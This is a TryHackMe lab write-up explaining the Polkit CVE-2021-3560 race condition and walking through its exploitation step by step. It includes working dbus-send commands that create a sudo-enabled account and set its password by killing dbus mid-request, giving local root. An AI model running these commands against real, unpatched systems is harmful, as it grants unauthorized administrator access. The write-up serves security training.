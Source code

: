# TryHackMe: Polkit

## Polkit (CVE-2021-3560)

### Background

CVE-2021-3560 impacted the following distros (at the time of its announcement):

* Red Hat Enterprise Linux 8
* Fedora 21 (or later)
* Debian Testing ("Bullseye")
* Ubuntu 20.04 LTS ("Focal Fossa")

Ubuntu fixed with with version `0.105-26ubuntu1.1` of the `policykit-1` package (the last vulnerable version was `0.105-26ubuntu1`).

This bug is a combination of a race condition and bad error handling. Basically:

* Manually request an action that requires superuser access via DBus.
* Kill `dbus-daemon` *after* Polkit has received the message but *before* it responds (there’s the race).
* Polkit requests the user ID associated with the message, but since DBus has restarted it can’t reference the original message ID and responds with an error.
* Polkit mishandles the error, substituting 0 for the ID of the requesting user (there’s the botched error handling).
* Because the requesting user ID now appears to be root, Polkit just goes ahead and takes the action without issuing a challenge.

The race condition is obviously kind of tricky, so best to request something that can perhaps provide some persistence, like the creation of a new user account or changing the password on an existing account.

### Exploitation Process

(0) Construct a message similar to the following:

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

The three parameters are:

* `string:attacker` — the name of the user to create.
* `string:"Pentester Account"` — the user “description” (GECOS field).
* `int32:1` — grant sudo access to the user.

(1) Begin by determining how long the message takes to execute on the target. This can be done with the `time` command.

```bash
time dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

(3) DBus needs to be killed approximately *halfway* through this execution period. We *cannot* wait for the application to return, so instead we background it.

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1 & \
sleep ${TIME}s; kill $!
```

Here `$TIME` is approximately half the time measured in the previous step.

(4) ID the created user.

```bash
id attacker
```

(5) Create a new password hash for the user.

```bash
openssl passwd -6 $PASSWORD
```

(6) Pull the same trick as in step 3, but with setting the created user’s password.

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts/User$UID \
	              org.freedesktop.Accounts.User.SetPassword \
	              string:'$PASSWORD_HASH' \
	              string:'Ask the pentester' & \
sleep ${TIME}s; kill $!
```

Here `$UID` is the user ID retrieved in step 4 (note that there’s *no* space between `User` and the ID, so you’ll be hitting an endpoint that looks something like `/org/freedesktop/Accounts/User1003`), `$PASSWORD_HASH` is the hash returned in step 5, and `$TIME` is the same timing determined from step 3. The second `string`  being passed in the user password hint.

(7) Log in as the new user (probably via `su`).

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> February 13, 2022
